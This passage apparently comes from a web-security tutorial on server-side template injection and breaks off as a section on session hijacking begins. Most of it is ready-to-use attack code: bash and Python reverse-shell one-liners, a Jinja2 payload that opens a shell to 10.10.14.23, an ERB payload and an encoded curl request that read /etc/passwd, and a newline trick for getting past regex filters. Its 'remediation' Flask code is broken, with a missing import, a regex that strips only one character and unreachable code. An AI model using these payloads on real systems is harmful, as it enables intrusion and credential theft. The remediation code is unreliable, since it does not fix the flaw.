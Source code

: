 The content of the shell can be the below

```bash
#!/bin/bash   
bash -c "bash -i >& /dev/tcp/ip/port 0>&1"
```

`OR`

```python
python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("ip"),int(os.getenv("port"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
```

Python Payload \[4] Getting a reverse shell

```python
{{ namespace.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/10.10.14.23/45454 0>&1"').read() }}
```

Ruby Payload \[5] Reading sensitive files

```
<%= File.open('/etc/passwd').read %>
```

In some instances, you may need to URL-Encode the payload to make it readable. If the Ruby server uses regular expression for filtering you can then try to bypass it with new line characters and pass the payload through curl

```
curl -d 'id=a
%3c%25%3d%20%46%69%6c%65%2e%6f%70%65%6e%28%27%2f%65%74%63%2f%70%61%73%73%77%64%27%29%2e%72%65%61%64%20%25%3e' example.com
```

**Example remediation code \[look at line numbre 8]**

```python
from flask import Flask, render_template_string 

app = Flask(__name__) 

@app.route("/profile/<user>") 

def profile_page(user): 
	user = re.sub("^[A-Za-z0-9]", "", user)
	template = f"<h1>Welcome to the profile of {{user}}!</h1>" 
	return render_template_string(template) 
	app.run()

```

#### Session Hijacking and Cookie Stealing

Session IDs and cookies if obtained can enable the attacker to login into users' accounts without the need for password. A cookie can be obtained using several different methods of attacks:
